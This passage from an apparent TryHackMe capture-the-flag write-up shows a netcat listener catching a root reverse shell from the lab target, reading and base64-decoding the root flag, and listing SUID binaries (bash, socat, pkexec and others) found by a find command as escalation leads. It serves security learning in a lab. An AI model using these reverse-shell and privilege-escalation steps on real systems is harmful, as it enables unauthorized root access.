 Start ************Netcat listener************ on the local machine with another ********port******** and wait for awhile:

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444        
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.33.235] 43944
bash: cannot set terminal process group (3298): Inappropriate ioctl for device
bash: no job control in this shell
root@elyana:~#
```

Now we are **********root**********! Simply navigate to `/root` directory and get the flag:

```tsx
root@elyana:~# ls 
ls 
root.txt
root@elyana:~# cat root.txt
cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

```tsx
┌──(kali㉿kali)-[~/TryHackMe/AllInOne]
└─$ echo "VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9" | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

### SUID

```tsx
bash-4.4$ find / -perm -04000 2>/dev/null
find / -perm -04000 2>/dev/null
/bin/mount
/bin/ping
/bin/fusermount
/bin/su
/bin/bash
/bin/chmod
/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/lxc
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/socat
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
```
